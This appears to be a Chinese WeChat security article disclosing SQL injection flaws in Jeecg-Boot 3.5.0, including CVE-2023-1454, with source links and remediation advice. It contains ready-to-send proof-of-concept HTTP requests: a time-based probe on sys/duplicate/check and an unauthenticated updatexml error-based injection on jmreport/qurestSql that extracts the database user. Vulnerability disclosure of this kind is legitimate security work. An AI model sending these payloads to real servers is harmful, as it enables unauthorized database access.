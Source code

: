 #  Jeegc-Boot 最新多个SQL注入漏洞

原创 Hack All [ Hack All ](javascript:void\(0\);)

**Hack All** ![]()

微信号 PTIOVHA

功能介绍 专注于网络安全，渗透测试，文章和工具分享，包括但不限于Web安全、物联网安全、车联网安全，我们的目标是Hack All！

____

___发表于_

收录于合集

#漏洞库 25 个

#漏洞复现 13 个

#漏洞知识 12 个

![](https://gitee.com/fuli009/images/raw/master/public/20230619143321.png)

**简介**  

Jeecg-Boot是一款基于Spring Boot和Jeecg-Boot-
Plus的快速开发平台，它提供了一系列的代码生成器、模板引擎、权限管理、数据字典、数据导入导出等功能，可以帮助开发者快速构建企业级应用。最近在最新的jeecg-
boot 3.5.0 中被爆出多个SQL注入漏洞。

官方网站：http://www.jeecg.com

 **影响范围**

Jeecg-Boot = v3.5.0

 **1、** **sys/duplicate/check 接口SQL注入**

sys/duplicate/check 接口存在SQL注入漏洞，checksql可以被绕过，需要身份认证，判断当前数据库用户：

![](https://gitee.com/fuli009/images/raw/master/public/20230619143323.png)

![]()

来源：

  * 

    
    
    https://github.com/jeecgboot/jeecg-boot/issues/4737

Poc：

  *   *   *   *   *   *   *   *   * 

    
    
    GET /jeecg-boot/sys/duplicate/check?tableName=v3_hello&fieldName=1+and%09if(user(%20)='root@localhost',sleep(0),sleep(0))&fieldVal=1&dataId=asd HTTP/1.1Host: 127.0.0.1:8080Accept-Encoding: gzip, deflateAccept: */*Accept-Language: en-US;q=0.9,en;q=0.8User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.114 Safari/537.36Connection: closeCache-Control: max-age=0X_ACCESS_TOKEN: [Token值]

 **2、jmreport/qurestSql 未授权SQL注入(CVE-2023-1454)**

根据J0hnWalker的分析，漏洞产生的主要原因是jimureport-spring-boot-
starter-1.5.6.jar中/org/jeecg/modules/jmreport/desreport/a/a.class文件：

![](https://gitee.com/fuli009/images/raw/master/public/20230619143324.png)

参数 apiSelectId 会从jimu_report_db表中通过id参数查询数据，id参数未过滤：

![](https://gitee.com/fuli009/images/raw/master/public/20230619143325.png)

jimu_report_db表中id值为1272834687525482497和1290104038414721025等的db_dyn_sql列是sql语句，且引用了id参数，这会导致二次注入：

![](https://gitee.com/fuli009/images/raw/master/public/20230619143326.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230619143328.png)

Poc：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /jeecg-boot/jmreport/qurestSql HTTP/1.1Host: localhost:8080Cache-Control: max-age=0sec-ch-ua: "Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"sec-ch-ua-mobile: ?0sec-ch-ua-platform: "macOS"Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9Sec-Fetch-Site: noneSec-Fetch-Mode: navigateSec-Fetch-User: ?1Sec-Fetch-Dest: documentAccept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6Connection: closeContent-Length: 130Content-Type: application/json;charset=UTF-8  
    {"apiSelectId":"1290104038414721025","id":"1' or '%1%' like (updatexml(0x3a,concat(1,(select current_user)),1)) or '%%' like '"}

获取当前数据库用户：

![](https://gitee.com/fuli009/images/raw/master/public/20230619143329.png)

来源：  

  * 

    
    
    https://github.com/J0hnWalker/jeecg-boot-sqli

 **3、jmreport/loadTableData授权SQL注入**

可视化设计-->报表设计器功能处存在SQL注入：  

![](https://gitee.com/fuli009/images/raw/master/public/20230619143330.png)

通过新建报表添加SQL数据集：

![](https://gitee.com/fuli009/images/raw/master/public/20230619143331.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230619143332.png)

在报表SQL中插入SQL语句，在数据预览时触发SQL注入：  

![](https://gitee.com/fuli009/images/raw/master/public/20230619143333.png)

来源：

  * 

    
    
    https://github.com/jeecgboot/jeecg-boot/issues/4702

 **修复建议**  

1、目前官方暂未发布安全版本修复该漏洞，请及时关注官网最新版本的发布情况。2、设置访问IP白名单或将系统部署到内网环境中。3、修改漏洞代码，过滤id参数，防止SQL注入。

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

